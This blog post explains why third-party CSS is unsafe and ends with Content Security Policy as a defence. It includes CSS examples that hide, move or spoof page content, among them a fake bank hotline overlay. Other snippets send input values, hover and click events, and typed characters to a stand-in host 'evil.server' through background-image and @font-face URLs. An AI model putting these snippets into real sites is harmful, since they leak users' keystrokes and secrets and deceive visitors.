


Recently, I read [Jake Archibald's "Third party CSS is not safe"](https://jakearchibald.com/2018/third-party-css-is-not-safe/), and it has a lot to say about why 3rd party CSS is not safe. You should give it a read, but if you are lazy, here I am going to read it along with you.

## 3rd party

If you use assets or APIs from sources that are not provided by yourself, you are using it from a 3rd party. Generally, in a context of a website, this means loading resources that is not from the same domain.

Jake then gave examples of how 3rd party images and 3rd party scripts could be harmful.

But, today's main focus is on 3rd party CSS. So let's scroll down and see what harm can 3rd party CSS bring.

## Where does 3rd party CSS come from?

Before we dive into what harm can it bring, let's pause for a moment and think, how does 3rd party CSS get into our web page?

### 1. CSS Frameworks

Well, if you use frameworks like Bootstrap (I have nothing against using Bootstrap, it's a great CSS framework), one of the options to adding it to your website is to use one of their CDN links.


This means that you are going to trust the CSS content return from the Bootstrap CDN.

_Have you ever take a look at what is contained in the `bootstrap.min.css` from CDN?_

### 2. Third party scripts

It's pretty lame for the 3rd party scripts to do something malicious through a 3rd party CSS, because the scope of influence of a 3rd party scripts is much more than a 3rd party CSS. But nonetheless, it's worth noting that it is entirely possible that a 3rd party CSS comes from a 3rd party script.

This begs the question of, where does the 3rd party script come from?

Well, if you visit any **well-intentioned** _\*cough\*_ site that tracks your behavior, and if you leave the site halfway through their funnel, they try remind you to through a network of advertisement elsewhere, such as in your search engine, or embedded in your social media, they achieve this through embedding third party scripts.

Here is a screenshot of list of 3rd party scripts loaded from [https://shopee.sg](https://shopee.sg/) (an ecommerce site based in South East Asia):


**Disclaimer:** I work for Shopee, I _have nothing_ against all these 3rd party ads, they are what helped us remind buyers to come back and complete their purchase. 🙈

### 3. Browser extensions

If you are someone who likes to decorate your browser, have a custom theme for all the website you visit, probably you are one of the users of a browser extension!


How a browser extension adds a custom theme to any website you visit is to inject a CSS to style them.

## How 3rd party CSS can be unsafe?

Let's take a look some examples from Jake's article and try it out ourselves.

### Disappearing content

A 3rd party CSS can easily hide content of your website using `display: none`, and your website will break without you knowing it.

One example would be hiding a RSVP button from [Singapore CSS website](https://singaporecss.github.io/), and the meetup organiser would be scratching their heads wondering why no one signing up for the event! 🤣

```css
a.c-rsvp {
  display: none;
}
```



### Adding content

Instead of removing content, a 3rd party CSS can add new content to your website, unpleasant content or confusing content that could drive your visitor away!

One example would be hiding the text by setting the color to `transparent`, and replace it with a background image instead!

```css
.c-event__content {
  color: transparent;
  background-image: url(http://localhost/image.png);
  background-repeat: no-repeat;
  background-size: contain;
  height: 200px;
}
```


Another technique to adding new content is to use the `::before` or `::after` psuedo element, as you can add new text via the `content` property.

Let's do a combination of hiding and adding content through CSS:

```css
a.c-rsvp::before {
  content: 'Snap! Failed to fetch content.';
  margin-right: 16px;
}
.c-rsvp span:first-child {
  color: transparent;
  position: relative;
  width: 106px;
}
.c-rsvp span:first-child::after {
  content: 'Refresh';
  color: #fafaff;
  left: 12px;
  position: absolute;
}
```

Here we hide the event details, change the button text from **"RSVP"** to **"Refresh"**, and somehow we got more people attending the meetup!


A more malicious example would be overlapping a different phone number on top of the hotline number of a bank

```css
p.hotline_number {
  position: relative;
}

p.hotline_number::after {
  content: '(65) 87654321';
  position: absolute;
  top: 0;
  left: 0;
  background: #f5f5f5;
}
```


> The screenshot was taken on my local machine, with a custom setup. No actual harm has done to anyone.

### Moving content

Yet again, we can move the RSVP button around to cover the entire screen. Now clicking anywhere on the site will lead you to the RSVP site.

```css
.c-rsvp {
  position: fixed;
  top: 0;
  left: 0;
  z-index: 1000;
  right: 0;
  bottom: 0;
}
.c-rsvp span:first-child {
  background: none;
  color: transparent;
  box-shadow: none;
}
```

### Reading attributes

Using the attribute selector, a 3rd party CSS can style the element differently based on different attribute value.

One, for example, could load a different background image for different attribute value. By knowing which background image is loaded, one could then know the value of the attribute.

With enough CSS written, covering all possibile values of the attribute, one could possibly figure out or reduce the search space to figure out the attribute value.

To make matter worse, some framework, for example React, synchornizes `input.value` to the `<input value="">` attribute.

<iframe src="https://codesandbox.io/embed/simple-password-ty7b7?fontsize=14&hidenavigation=1&theme=dark"
  style="width:100%; height:500px; border:0; border-radius: 4px; overflow:hidden;"
  title="Simple password"
  allow="accelerometer; ambient-light-sensor; camera; encrypted-media; geolocation; gyroscope; hid; microphone; midi; payment; usb; vr; xr-spatial-tracking"
  sandbox="allow-forms allow-modals allow-popups allow-presentation allow-same-origin allow-scripts"
></iframe>

An example of sniffing the attribute value using attribute selector + `background-image`:

```css
input[value$='a'] {
  background-image: url('http://evil.server/value?a');
}
input[value$='b'] {
  background-image: url('http://evil.server/value?b');
}
input[value$='c'] {
  background-image: url('http://evil.server/value?c');
}
input[value$='d'] {
  background-image: url('http://evil.server/value?d');
}
```

### Monitoring attributes

You can track hover and activations of an element and send that information to the server.

```css
a.c-rsvp:hover {
  background-image: url('http://evil.server/hover');
}
a.c-rsvp:active {
  background-image: url('http://evil.server/click');
}
```

### Reading text

If the secret important data on your website is not on the attribute, but rather being part of a text, you may think you are safe from 3rd party CSS, because there's no inner text selector in CSS.

However, there's still tricks up the 3rd party CSS sleeves: **fonts**.

A 3rd party CSS can declare a `font-family` that requires a different font file for different character, which means it could be use to determine what are the characters there is in the selected text.

However, there's a limitation to this, which is, there's no way telling the order and number of occurence of the characters. Because, the font files would be cached by the browser, and will not be fetched again with another occurence of the same character.

```css
@font-face {
  font-family: evil;
  src: url('http://evil.server/key=A') format('woff');
  unicode-range: U+41;
}

@font-face {
  font-family: evil;
  src: url('http://evil.server/key=B') format('woff');
  unicode-range: U+42;
}

element {
  font-family: evil;
}
```

This could be apply to `<input>` as well. As the user types in their confidential information, character by character, the browser fetches the font file, and the `evil.server` will know which characters the user has typed into the input.

## Content Security Policy

While I was trying to reading attributes from a local bank website, (to try out the feasibility of the techniques above), I couldn't load the background image from my `localhost` server.



It says my request to my image gets blocked by [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

So I checked the response of the webpage, and found out the following CSP header in the network tab.


In the header, it specifies allow-list of domains / subdomains for specific type of asset. For example, in the following CSP

```
img-src 'self' *.gstatic.com;
style-src 'self';
```

it allows image source from the site's own origin and subdomain in `gstatic.com`, and only styles from the site's own origin.

Any styles or image source beyond the list will be blocked by the browser.

## Summary

Third party CSS is not absolutely safe, where you can trust them blindly. It can modify, remove or add content to your site, which may indirectly reducing trust of your users to your site.

## Further reading

- https://jakearchibald.com/2018/third-party-css-is-not-safe/
- https://github.com/maxchehab/CSS-Keylogging
- https://vimeo.com/100264064#t=1290s
- https://www.youtube.com/watch?v=eb3suf4REyI
- https://www.nds.ruhr-uni-bochum.de/media/emma/veroeffentlichungen/2012/08/16/scriptlessAttacks-ccs2012.pdf